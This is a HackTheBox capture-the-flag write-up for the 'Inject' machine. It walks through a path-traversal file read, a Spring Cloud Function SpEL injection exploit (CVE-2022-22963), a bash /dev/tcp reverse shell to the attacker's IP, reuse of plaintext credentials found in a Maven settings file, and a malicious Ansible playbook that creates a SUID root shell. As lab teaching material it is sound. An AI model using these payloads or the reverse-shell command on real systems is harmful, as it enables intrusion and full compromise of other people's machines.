








# Inject - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `8080`.

***User***: Discovered a Local File Inclusion vulnerability on the image upload feature, which led to the discovery of a `pom.xml` file that revealed a vulnerable version of `spring-cloud-function-web` with `CVE-2022-22963`. Exploited the vulnerability to gain a reverse shell as `frank`. Found `phil`'s credentials in the `settings.xml` file on the `/home/frank/.m2/` directory.

***Root***: Observed a scheduled task running on the target machine which removed the contents of a directory `/opt/automation/tasks/` and copied the original file `playbook_1.yml` from `/root`. Found an Ansible playbook in `/opt/automation/tasks/`. Uploaded a new playbook that created an SUID of `/bin/sh` as `root`.




## Inject Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Inject]
└──╼ $ nmap -sV -sC -oA nmap/Inject 10.10.11.204
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 22:40 IDT
Nmap scan report for 10.10.11.204
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Observing port `80`, we see that the following web page is hosted:



Upon clicking the [Upload](http://10.10.11.204:8080/upload) button, we are directed to the following page:



When uploading an image, a success message containing a link to http://10.10.11.204:8080/show_image?img=Cloud.png is displayed under the `View your image` section:



This link is vulnerable to a [LFI](https://portswigger.net/web-security/file-path-traversal) attack. If the following request is sent: http://10.10.11.204:8080/show_image?img=../ , the following content is returned:



During enumeration of the target, we discovered the `pom.xml` file located at `../../../../../../var/www/WebApp/pom.xml`, which contains the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

Of particular interest is the following dependency:
```xml
<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-function-web</artifactId>
	<version>3.2.2</version>
</dependency>
```

We have identified that the version of the dependency mentioned above is affected by `CVE-2022-22963`, and a proof-of-concept (POC) exploit for this vulnerability is available at the following link: https://github.com/lemmyz4n3771/CVE-2022-22963-PoC.

In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources ([Reference](https://nvd.nist.gov/vuln/detail/CVE-2022-22963)).

The exploit adds an HTTP header with a command injection payload in the following format:
```java
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/test3.sh")
```

Let's use it:
```console
┌─[evyatar9@parrot]─[/hackthebox/Inject]
└──╼ $ python3 poc.py 10.10.11.204:8080 'touch /tmp/test.sh'
[+] Host is vulnerable
[+] Command executed
[+] Exploit completed
```

Using the LFI vulnerability, it's possible to view the file created at `../../../../../../tmp`:



The following payload can be used to obtain a reverse shell `bash -c bash${IFS}-i${IFS}>&/dev/tcp/10.10.14.14/4242<&1`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Inject]
└──╼ $  python3 poc.py 10.10.11.204:8080 'bash -c bash${IFS}-i${IFS}>&/dev/tcp/10.10.14.14/4242<&1'
[+] Host is vulnerable
[+] Command executed
[+] Exploit completed
```

A reverse shell is obtained as the user `frank`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Inject]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.9] from inject.htb [10.10.11.204] 58222
bash: cannot set terminal process group (812): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$
```

During enumeration of the target using the `frank` user, we discovered the credentials of the `phil` user in the `settings.xml` file:
```console
frank@inject:~/.m2$ pwd    
pwd
/home/frank/.m2
frank@inject:~/.m2$ cat settings.xml
cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

We can use those credentials to proceed with further enumeration or any authorized actions:
```console
frank@inject:~/.m2$ su phil
su phil
Password: DocPhillovestoInject123
python3 -c 'import pty; pty.spawn("/bin/bash")'
phil@inject:/home/frank/.m2$ whoami
phil
python3 -c 'import pty; pty.spawn("/bin/bash")'
phil@inject:/home/frank/.m2$ cat /home/phil/user.txt
fc2aaab46fcb9e2ecd2f6a3b5a4b2339
```

And we get the user flag `fc2aaab46fcb9e2ecd2f6a3b5a4b2339`.

### Root

Upon observing the running processes on the target machine, we have identified the following scheduled process:
```console
root         954  0.0  0.0   6816  2968 ?        Ss   20:22   0:00 /usr/sbin/cron -f
root        1963  0.0  0.0   8360  3340 ?        S    20:32   0:00  _ /usr/sbin/CRON -f
root        1972  0.2  0.0   2608   532 ?        Ss   20:32   0:00      _ /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
```

We can observe that the `root` user removes the files from the directory and copies the original file from `/root`.

Now, let's proceed to observe the contents of the file located at `/opt/automation/tasks/playbook_1.yml`:
```console
cat /opt/automation/tasks/playbook_1.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

We can determine that this is an Ansible playbook.

Given that the file is named `playbook_1.yml`, we can speculate that if we create a file named `playbook_2.yml` with our desired command, it will be executed when the scheduled process runs.

We can proceed by creating a new file named `playbook_2.yml` in the directory `/opt/automation/tasks`, which contains our desired command using the `ansible.builtin.shell` tag as outlined in the [Ansible documentation](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html):
```console
┌─[evyatar9@parrot]─[/hackthebox/Inject]
└──╼ $ cat playbook_2.yml
- hosts: localhost
  tasks:
  - name: command 
    ansible.builtin.shell:
      cmd: touch /home/phil/test
```

After uploading the playbook file to `/opt/automation/tasks` and waiting for a few seconds, we can observe the creation of a new file in `/home/phil`:
```console
phil@inject:/opt/automation$ ls -ltra /home/phil/
ls -ltra /home/phil/
total 28
-rw-r--r-- 1 phil phil  807 Feb 25  2020 .profile
-rw-r--r-- 1 phil phil 3771 Feb 25  2020 .bashrc
lrwxrwxrwx 1 root root    9 Feb  1 07:40 .bash_history -> /dev/null
drwxr-xr-x 4 root root 4096 Feb  1 18:38 ..
drwx------ 2 phil phil 4096 Feb  1 18:38 .cache
-rw-r----- 1 root phil   33 Apr  2 20:22 user.txt
drwx------ 2 phil phil 4096 Apr  2 20:32 .gnupg
-rw-r--r-- 1 root root    0 Apr  2 20:46 test
drwxr-xr-x 4 phil phil 4096 Apr  2 20:46 .
```

Now we can create an SUID file of `/bin/sh` using the following task:
```console
┌─[evyatar9@parrot]─[/hackthebox/Inject]
└──╼ $ cat playbook_2.yml
- hosts: localhost
  tasks:
  - name: command
    ansible.builtin.shell:
      cmd: cp /bin/sh /home/phil/.sh && chmod 4755 /home/phil/.sh
```

And we can see the following SUID file has been created on `/home/phil/`:
```console
phil@inject:/opt/automation$ ls -ltra /home/phil/
ls -ltra /home/phil/
total 156
-rw-r--r-- 1 phil phil    807 Feb 25  2020 .profile
-rw-r--r-- 1 phil phil   3771 Feb 25  2020 .bashrc
lrwxrwxrwx 1 root root      9 Feb  1 07:40 .bash_history -> /dev/null
drwxr-xr-x 4 root root   4096 Feb  1 18:38 ..
drwx------ 2 phil phil   4096 Feb  1 18:38 .cache
-rw-r----- 1 root phil     33 Apr  2 20:22 user.txt
drwx------ 2 phil phil   4096 Apr  2 20:32 .gnupg
-rw-r--r-- 1 root root      0 Apr  2 20:46 test
-rwsr-xr-x 1 root root 129816 Apr  2 21:00 .sh
drwxr-xr-x 4 phil phil   4096 Apr  2 21:00 .
```

Now that we have created the SUID file of `/bin/sh`, we can execute it to obtain a `root` shell:
```console
phil@inject:/opt/automation$ /home/phil/.sh -p
/home/phil/.sh -p
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
3b35d1d1570d8b36d565f4bfc7beeff0
```

And we get the root flag `3b35d1d1570d8b36d565f4bfc7beeff0`.